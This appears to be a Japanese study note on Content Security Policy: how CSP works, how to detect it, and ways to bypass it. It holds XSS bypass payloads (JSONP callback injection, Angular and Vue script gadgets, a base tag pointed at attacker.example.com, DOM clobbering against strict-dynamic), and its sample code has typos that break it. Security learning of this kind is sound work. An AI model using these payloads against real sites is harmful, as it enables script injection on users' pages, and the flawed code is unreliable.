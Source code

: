 # CSP Evaluation
<br>

- [\#CSPとは](#CSPとは)
- [\#CSPが設定されているか](#CSPが設定されているか)
	- [\#HTTPヘッダに含まれる場合](#HTTPヘッダに含まれる場合)
	- [\#meta要素で記述する場合](#meta要素で記述する場合)
- [\#ディレクティブ](#ディレクティブ)
- [\#CSPとは](#CSPとは)
- [\#Bypassing](#Bypassing)
	- [\#ホストベースの構成を利用したバイパス](#ホストベースの構成を利用したバイパス)
	- [\#ディレクティブの設定不備により脆弱性が生まれるパターン](#ディレクティブの設定不備により脆弱性が生まれるパターン)
	- [\#DOM Clobbering による strict-dynamic のバイパス](#DOM-Clobbering-による-strict-dynamic-のバイパス)

<br>

## CSPとは
CSP(Content Security Policy)

CSPはXSSなどの*Content Injection攻撃*に対するリスクを軽減させるセキュリティレイヤーのこと。

具体的には

- ホスト名
	- スクリプトの配信元として信頼するサーバーのホスト名を指定する。スクリプトを読み込む際に参照されて信頼できるものとして含まれていない場合は実行しない。
- ハッシュ値
	- 実効するスクリプトのハッシュ値を先に計算しておき、そのハッシュ値と同じ場合のみ実行を許可する。
	- つまり、hash値が異なる場合 -> script が書き換わった場合実行しない
- 乱数
	- HTMLをレスポンス時に使い捨ての乱数スクリプトに付与し、付与時の乱数と等しい場合のみ実行する。
	- つまり、nonce 属性がついていない又は異なる script 要素は実行しない

<br>

## CSPが設定されているか

CSPが設定されているかは以下の2パターンで確認できる。

### HTTPヘッダに含まれる場合
```http
HTTP/1.1 200 OK
Host: example.com
...
Content-Security-Policy: script-src 'self'
...
```

### meta要素で記述する場合
```html
<head>
	<meta 
		http-equiv="Content-Security-Policy" 
		content="script-src 'self'"
	>
</head>
```

<br>


## ディレクティブ
ディレクティブとは、CSPによる制限を定義するための命令記法のこと。
*\<directive-name\> \<directive-value\> ...* の順で書かれる
For exsample)
```directive
script-src 'self'
script-src 'self' 'unsafe-inline'
```

<!--
**script-srs** : スクリプトに関する制限を定義するディレクティブ。
|keyword|説明|
|---|---|
|'none'|あらゆるスクリプト|
|'self'|参照している HTML と Same-Origin であるスクリプトの実行を許可する|
|*host-source:* |ホスト名や IP アドレス、URLによって指定されたサーバーから配信されるスクリプトの実行を許可する。|
|'host-souce' 'nonce-\<base64-value\>'|Base64 形式の Nonce (使い捨ての乱数) を用いてスクリプトの実行を許可する。許可対象とするスクリプト要素の nonce 属性と同じ値にならない場合、そのスクリプトは実行されない。|
|'host-souce' '\<hash-algorithm\>-\<base64-value\>'|Base64形式のハッシュ値を用いてスクリプトの実行を許可する。ハッシュ値はスクリプトの内容をハッシュ化したもの。外部リソースの場合はスクリプトの integrity 属性にそのスクリプトのハッシュ値を入れる。|
|
**connect-src** : script interfaces API (XMLHttpRequest や Fetch API のこと) を介して通信可能なURLの制限を定義するディレクティブ。connect-src ディレクティブの値として指定されたURL以外のアクセスは禁止される。

**default-src** : Fetch Directives に属するディレクティブのフォールバックとして機能する。
[developer.mozilla.org CSP: default-src](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy/default-src)

**base-uri** : base要素で可能なドキュメントの相対URLの起点を制限するディレクティブ。**none** なら安全

-->

<br>

# Bypassing

### ホストベースの構成を利用したバイパス
---
```http
Content-Security-Policy: script-src 'self' csp.example.com
```
のようになっている場合
以下の２点をチェックする

**JSONPエンドポイントの有無**

> *csp.example.com* からスクリプトを返させることによって SOP(Same-Origin-Policy) の制限をバイパスする。

Attacker -> Target
```html
<script src="csp.example.com/jsonp?callback=alert(1)//"></script>
```

Target -> csp.example.com
```text
csp.example.com/jsonp?callback=alert(1)//
#通常 callback 関数を要求していますが、今回はalertが渡されている
```

csp.example.com -> Target
```javascript
alert(1)//({name:aaaa})
// "alert(1)//" に引数を付けて返すがコメントアウトされ alert(1) が実行される
```


**サーバのライブラリ**

> ライブラリに含まれる Script Gadget と呼ばれるスクリプトの挿入を可能にするスクリプトを利用する。

Angular.js の場合
```html
<script src="csp.example.com/angular.js"></script>
<div ng-app ng-csp>{{ eval.constructor('alert(1)')() }}</div>
```

Vue.js の場合
```html
<script src="cdn.example.com/vue.js"></script>
<div>{{ constructor.constructor('alert(1)')() }}</div>
```


<br>


### ディレクティブの設定不備により脆弱性が生まれるパターン
---

> 設定の不備については
[CSP Evaluator](https://csp-evaluator.withgoogle.com/)にて脆弱性を確認できる。

**base-uri** 設定不備の際
```html
<base href="http://attacker.example.com">
```
とすることでそれ以下の\<script src="/test.js"\>となっている箇所を
http://attacker.example.com/test.js と参照先を変えることが可能

<br>

### DOM Clobbering による strict-dynamic のバイパス
---
> script-src ディレクティブに strict-dynamic が設定されている場合、DOM Clobbering と呼ばれる手法を用いて CSP をバイパスできる場合がある。
> > **strict-dynamic** : parser-incerted (\<img src="/"  onerror="\<script\>alert(1)\</script>"\>) などを防ぐ設定
> > 
> > **DOM Clobbering** とは、HTML 内に不正な HTML を挿入することで本来の DOM 構造を破壊し、JavaScrip による DOM 操作の内容を強制的に変更させる手法のこと。

> idの値を事前にHTMLとして使用できそうかを確認。

**DOM Clobbering**

*document.getElementById('name')* などが存在するときは、
もともとの idの値よりも前の段階で そのidの値 を使用することで DOM 構造を破壊できる。


脆弱性)

*?title=TITLE&name=USER*
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>

<!-- タイトル
?title=TITLE から取得
-->
<h1>TITLE</h1>
<!-- 名前 -->
<p id="name"></p>
```


攻撃例)

*?title=\</h1\>\<script id="name"\>\</script\>\<h1\>&name=alert(1)//*
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>

<!-- タイトル
?title=</h1><script id="name"></script><h1> から取得
-->
<h1></h1><script id="name"></script><h1>
<!-- 名前 -->
<p id="name"></p>
```